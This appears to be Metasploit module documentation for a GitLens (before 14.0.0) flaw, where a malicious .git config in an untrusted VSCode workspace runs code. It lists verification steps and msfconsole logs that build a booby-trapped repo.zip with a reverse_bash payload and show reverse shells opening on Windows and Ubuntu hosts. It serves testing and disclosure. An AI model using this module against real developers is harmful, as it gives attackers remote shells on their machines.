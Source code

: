 ## Vulnerable Application

GitKraken GitLens before v.14.0.0 allows an untrusted workspace to execute git
commands. A repo may include its own .git folder including a malicious config file to
execute arbitrary code.

Tested against VSCode 1.87.2 with GitLens 13.6.0 on Ubuntu 22.04 and Windows 10

### Install

Download the extension [gitlens-13.6.0.vsix](https://github.com/gitkraken/vscode-gitlens/releases/download/v13.6.0/gitlens-13.6.0.vsix)

1. In VSCode, go to extensions (left side, 4 blocks), click triple dots in top right corner, Auto Update Extensions -> None.
1. In VSCode, go to extensions (left side, 4 blocks), click triple dots in top right corner, install from vsix.

## Verification Steps

1. Install the extension
1. Start msfconsole
1. Do: `use exploit/multi/fileformat/gitlens_local_config_exec`
1. Do: `run`
1. Unzip the repo
1. Open the folder in Visual Studio Code
1. When prompted, select "No, I don't trust the authors"
1. Open the `README.md` file and put the cursor on the first line.
1. You should get a shell.

## Options

### README

The content of the `README.md` file. Defaults to `# Test`

## Scenarios

### VSCode 1.87.2 on Windows 10 Pro (22H2) with GitLens 13.6.0

```
[*] Processing gitlens.rb for ERB directives.
resource (gitlens.rb)> use exploit/multi/fileformat/gitlens_local_config_exec
[*] Using configured payload cmd/unix/reverse_bash
resource (gitlens.rb)> set target 1
target => 1
resource (gitlens.rb)> set lhost 192.168.10.147
lhost => 192.168.10.147
msf6 exploit(multi/fileformat/gitlens_local_config_exec) > exploit

[*] Started reverse TCP handler on 192.168.10.147:4444 
[+] repo.zip stored at /root/.msf4/local/repo.zip
[*] Waiting for shell
```

Unzip the repo, open the folder in Visual Studio Code. When prompted, select "No, I don't trust the authors". Open the `README.md` file and put the cursor on the first line.

```
[*] Sending stage (336 bytes) to 192.168.10.100
[*] Command shell session 1 opened (192.168.10.147:4444 -> 192.168.10.100:62807) at 2024-03-19 17:46:46 +0000


Shell Banner:
Microsoft Windows [Version 10.0.19045.4170]
-----
          

C:\Users\h00die\Desktop\repo>whoami
whoami
h00die

C:\Users\h00die\Desktop\repo>
```
### VSCode 1.87.2 on Windows 10 Pro (1809), utilizing remote connection to Ubuntu 22.04 with GitLens 13.6.0 installed

```
$ ./msfconsole -qr gitlens.rb 
[*] Processing gitlens.rb for ERB directives.
resource (gitlens.rb)> use exploit/multi/fileformat/gitlens_local_config_exec
[*] Using configured payload cmd/unix/reverse_bash
resource (gitlens.rb)> set lhost 192.168.10.147
lhost => 192.168.10.147
msf6 exploit(multi/fileformat/gitlens_local_config_exec) > exploit

[*] Started reverse TCP handler on 192.168.10.147:4444 
[+] repo.zip stored at /root/.msf4/local/repo.zip
[*] Waiting for shell
```

Unzip the repo, open the folder in Visual Studio Code. When prompted, select "No, I don't trust the authors". Open the `README.md` file and put the cursor on the first line.

```
[*] Command shell session 1 opened (192.168.10.147:4444 -> 192.168.10.147:53600) at 2024-03-19 18:26:04 +0000

[*] Command shell session 2 opened (192.168.10.147:4444 -> 192.168.10.147:53612) at 2024-03-19 18:26:06 +0000
id
uid=1000(notroot) gid=1000(notroot) groups=1000(notroot),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),119(docker)
```
